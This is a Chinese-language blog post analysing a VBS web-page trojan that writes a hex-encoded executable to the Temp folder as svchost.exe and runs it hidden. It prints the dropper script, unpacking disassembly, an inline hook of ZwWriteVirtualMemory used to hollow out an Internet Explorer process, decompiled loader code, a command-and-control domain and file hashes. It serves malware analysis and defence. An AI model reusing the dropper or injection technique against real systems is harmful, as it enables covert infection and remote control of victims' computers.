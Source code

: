 ```yaml
---
published: true
title: VBS页面木马简单分析
layout: post
tags: [安全, 逆向]
categories: [安全]
---
```


### 简述

最近监控到一种VBS网页挂马数量大规模爆发，影响近数万的site，初步怀疑数量的井喷与最近连续爆出的高危漏洞有关，这里对其中使用到的加密注入技术进行简单分析。

像骗子一般会用比较低级的骗术过滤掉聪明的人来降低行骗成本，这个木马也同样是这样，直接在页面中用VBS写编码后的PE文件，简单粗暴，只有IE的安全级别为低且允许运行VBS的情况下才会中招。一般这样的用户没有什么安全意识，电脑也基本没有防护，控制者几乎可以为所欲为。

简单粗暴的挂马代码如下

```vbscript
DropFileName = "svchost.exe"
// 编码后的PE文件
WriteData = "4D5A90000300000..."
Set FSO = CreateObject("Scripting.FileSystemObject")
// 保存文件为Temp文件夹下的svchost.exe
DropPath = FSO.GetSpecialFolder(2) & "\" & DropFileName
If FSO.FileExists(DropPath) = False Then
    Set FileObj = FSO.CreateTextFile(DropPath, True)
    For i = 1 To Len(WriteData) Step 2
        FileObj.Write Chr(CLng("&H" & Mid(WriteData,i,2)))
    Next
    FileObj.Close
End If
// 运行该程序
Set WSHshell = CreateObject("WScript.Shell")
WSHshell.Run DropPath, 0
```

把挂马的PE文件内容保存下来，通过下面的代码还原成二进制文件。

```python
import re
arr = re.compile('.{2}').findall(open('virus').read())
open('virus.pe', 'w').write(''.join([chr(int(i, 16)) for i in arr]))
```

### 脱壳解密

PEID查壳，显示为```UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo```，直接ESP下断脱掉后放入IDA中分析，查看字符串，发现并没有什么特别的东西，有很多API字符串，判断代码还是被加密，分析找到解密代码如下，算法比较简单。

```
UPX0:004084AA 8D 7F 01                  lea     edi, [edi+1]
UPX0:004084AD FF 77 01                  push    dword ptr [edi+1]
UPX0:004084B0 8A 24 24                  mov     ah, byte ptr [esp+8+var_8]
UPX0:004084B3 E9 81 EF FF FF            jmp     loc_407439

loc_407439: 
UPX0:00407439 83 C4 04                  add     esp, 4
UPX0:0040743C 80 F4 A2                  xor     ah, 0A2h
UPX0:0040743F C0 C4 16                  rol     ah, 16h
UPX0:00407442 C0 CC 08                  ror     ah, 8
UPX0:00407445 80 EC 6C                  sub     ah, 6Ch
UPX0:00407448 30 61 00                  xor     [ecx+0], ah
UPX0:0040744B 41                        inc     ecx
UPX0:0040744C 4A                        dec     edx
UPX0:0040744D 8B DA                     mov     ebx, edx
UPX0:0040744F 81 EB 09 58 CD 2F         sub     ebx, 2FCD5809h
UPX0:00407455 52                        push    edx
UPX0:00407456 53                        push    ebx
UPX0:00407457 8B D4                     mov     edx, esp
UPX0:00407459 81 42 00 09 58 CD 2F      add     dword ptr [edx+0], 2FCD5809h
UPX0:00407460 5B                        pop     ebx
UPX0:00407461 5A                        pop     edx
UPX0:00407462 0F 85 42 10 00 00         jnz     loc_4084AA
UPX0:00407468 E8 75 0F 00 00            call    sub_4083E2    ;跳转到解密后代码
UPX0:0040746D C3                        retn
```

这里代码跳转后，依旧还是一段用来解密的shell，OD中跟几步，发现它在读写0x400000的PE头，判断它会把解密后的代码写回.text段，直接在0x401000处下硬件写入断点，几次F9后到解密代码，继续往下跟，在调用LoadLibrary和GetProcessAddress重建导入表后跳转到真正的EP，在这里dump后用ImportREC重建输入表拖入IDA中分析。

### 母体分析

这是一个典型的恶意程序母体，它只做下面三步：

1. 创建"KyUffThOkYwRRtgPP"互斥体，保证只有一个实例在运行;

2. 从注册表中读取IE的文件目录，将自身写入IE文件夹中，命名为DesktopLayer.exe并执行，原始进程退出。

3. 若自身的进程名为DesktopLayer.exe，进入正常流程。正常流程调用CreateProcess启动一个IE进程，并将子体注入IE中运行。注入过程比较有意思，详细分析一下：

* 第一步：挂起自身所有线程，用inline hook方法hook ZwWriteVirtualMemory函数，再恢复线程执行，实际上这里并没有多线程环境，病毒作者应该是使用了通用hook库。可以看下面ZwWriteVirtualMemory函数hook前后的对比。

```
ntdll.ZwWriteVirtualMemory 
7C92DFAE       B8 15010000         mov eax,115
7C92DFB3       BA 0003FE7F         mov edx,7FFE0300
7C92DFB8       FF12                call dword ptr ds:[edx]
7C92DFBA       C2 1400             retn 14

ntdll.ZwWriteVirtualMemory
7C92DFAE       E9 A64AAD83         jmp DesktopL.00402A59
7C92DFB3       BA 0003FE7F         mov edx,7FFE0300
7C92DFB8       FF12                call dword ptr ds:[edx]
7C92DFBA       C2 1400             retn 14
```

* 第二步：调用CreateProcess来创建IE进程，CreateProcess会调用CreateProcessInternalW函数来处理真正的创建进程流程，这个函数中最终会调用ZwWriteVirtualMemory函数来将程序文件和DLL库写到新进程的地址空间中，这个过程自然就触发了hook函数的执行。

* 第三步: 通过hook函数向子进程的0x20010000处注入长度为0x9800的子体，并且继续注入几段代码和数据，然后调用ZwQueryInformationProcess获得子进程加载基址，在其EP处写入12个字节。这12个字节是三条汇编指令，作用是跳转执行恶意代码。12字节指令如下：

```
0040DFA7  BF 00000400         mov edi,40000   // 0x40000和0x50000是调用VirtualAlloc申请内存时
0040DFAC  68 00000500         push 50000      // 返回，不同机器和环境返回值不一样
0040DFB1  FFD7                call edi
```

到此IE进程已经被掏空并塞满了恶意代码，进程创建完毕后，主线程一旦开始执行，便会跳转到恶意代码处，此时IE进程已经成了披着羊皮的狼。总结其母体代码流程如下:

```c++
void __usercall start(unsigned __int8 *a1<edi>)
{
  int mutex_handler; // eax@2
  DWORD len; // eax@5

  if ( get_ie_exe_path(&ie_exe_path, 0x400u) == 1 )
  {
    mutex_handler = create_mutex("KyUffThOkYwRRtgPP");
    if ( mutex_handler )
    {
      close_mutex((HANDLE)mutex_handler);
      mutex_handler = 1;
    }
    if ( mutex_handler == 1 )
    {
      len = GetModuleFileNameA(NULL, module_file_name, 0x104u);
      set_end_of_str(module_file_name, len);
      if ( copy_self_to_ie_path(module_file_name) == 1 )
        ExitProcess(0);
      if ( get_APIs_address() == 1 )
      {
        inline_hook_function(a1);
        create_process((LPSTR)&ie_exe_path, 1u);
        unhook_function();
      }
    }
  }
  ExitProcess(0);
}
```

### 子体分析

在母体进行代码注入时，总共会调用VirtualAllocEx和WriteProcessMemory注入下面列出的六次代码：

```
LoaclAddress   RemoteAddress   Size
0x20010000     0x20010000      0xD0000
0x004022F0     0x00020000(*)   0x233
0x00402523     0x00030000(*)   0xDF
0x00401F5D     0x00040000(*)   0xAF
0x00121FEC     0x00050000(*)   0x138
0x0040DFA7     0x00402451      0xC
```

写到0x20010000处的代码是病毒子体，直接从母体中把子体抓出是无法分析的，其代码做了加密，并且缺少几段一同注入的解密代码。

这里有两个思路，一种是在VirtualAllocEx和WriteProcessMemory下断，把第一个参数hProcess换成-1，让它把代码写入自己的内存，在拷贝最后12个字节时将EIP跳过去开始执行；另一种是把最后拷贝到子进程的12个字节中第一个字节换成CC，并且把OD设置为默认调试器，子进程开始运行会自动触发int 3断点被OD attach上，恢复第一个字节，继续跟踪即可。

我这里选择了第一种方式，用这种方法跳转后的代码依旧是shell，完成对子体代码的导入表修复和重定向，最终才会跳转到0x20017c79处真正的子体代码开始执行。

到此，木马子体已经完全释放完毕，在其每个线程的入口处添加断点，跟踪几步便可看到上线域名fget-career.com。

从OD对0x20010000内存段的反汇编可以大致看出其功能，一个很典型的远控木马，这里不再详细分析。在线行为分析报告参考这里。[行为分析报告](http://a.virscan.org/ff5e1f27193ce51eec318714ef038bef)

病毒文件MD5: ff5e1f27193ce51eec318714ef038bef

脱壳后文件MD5: 7bb9db2b8b37a918ab101d0687a9866b
